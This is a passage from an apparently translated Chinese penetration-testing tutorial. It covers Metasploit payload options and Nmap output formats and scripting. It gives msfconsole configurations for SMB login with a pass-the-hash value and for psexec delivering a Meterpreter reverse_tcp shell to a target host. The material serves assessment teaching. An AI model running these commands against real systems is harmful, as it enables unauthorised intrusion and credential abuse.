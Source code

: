 set`payload`命令选择要在主机上丢弃的有效负载，然后执行。`reverse_tcp`有效载荷拨回攻击箱以建立连接。如果它是一个`bind`有效载荷，那么在执行后，攻击盒将直接连接到侦听端口。`RHOST`和`LPORT`表示我们要连接的目标主机，以及我们要监听的用于返回通信的攻击盒上的端口。`exploit -j`运行漏洞攻击，然后对结果进行后台处理，这允许您专注于其他事情，根据需要使用`session -i <session number>`返回会话。请记住，执行`smb_login`或`psexec`不需要破解的凭据；相反，您可以只使用 PtH。在这种情况下，`smb_login`命令的文本看起来像以下代码：

### 注

当流程执行完成时，将删除掉在框上的所有有效负载。如果执行过程中断，有效负载可能会留在系统上。如果未正确配置工具以删除检测到的进程的生成器，则使用监视进程的工具的安全性更好的环境可能会有这样的实例。

```
msfconsole
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

以下配置将用于`psexec`命令：

```
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```

现在您已经了解了`nmap grepable`输出的目的和好处，让我们看看 XML 输出的好处。在继续之前，应该注意一项，这将帮助您了解 XML 的好处是什么。查看`nmap grepable`输出的线路。您可以看到，用于区分数据字段的特殊字符很少；这意味着您可以轻松地只提取信息的一小部分。要获得更大的数量，必须使用`sed`和`awk`插入轮廓线。这是一个痛苦的过程，但谢天谢地，您手头有 XML 输出的解决方案。

### 理解 Nmap XML 输出

XML 构建使用子组件和父组件标记数据集的数据树。这允许在遍历列出父关系和子关系的树后，使用特定的标签抓取轻松直接地解析数据。最重要的是，正因为如此，XML 输出可以由其他工具（如 Metasploit）导入。您可以使用`-oX`选项轻松地仅输出为 XML。这些好处的更多细节将在后面的章节中介绍，特别是在[第 9 章](09.html#aid-29DRA2 "Chapter 9. Automating Reports and Tasks with Python")中使用 Python 解析 XML 时，*使用 Python*自动生成报告和任务，以帮助自动生成报告数据。

## Nmap 脚本引擎

Nmap 有许多为评估员提供独特功能的脚本。它们可以帮助识别易受攻击的服务，利用系统或与复杂系统组件交互。这些脚本是用一种称为 Lua 的语言编写的，这里将不介绍这种语言。这些脚本可以在 Kali 的`/usr/share/nmap/scripts`中找到。每个脚本都可以使用`--script`选项调用，然后在逗号分隔列表中调用。在对目标系统执行脚本之前，请确保您知道每个脚本的作用，因为可能会对目标系统造成意外后果。

### 注

有关`nmap`脚本的更多详细信息，请访问[http://nmap.org/book/man-nse.html](http://nmap.org/book/man-nse.html) 。有关`nmap`脚本的详细信息，请参见[http://nmap.org/nsedoc/](http://nmap.org/nsedoc/) 及其目的和类别关联。
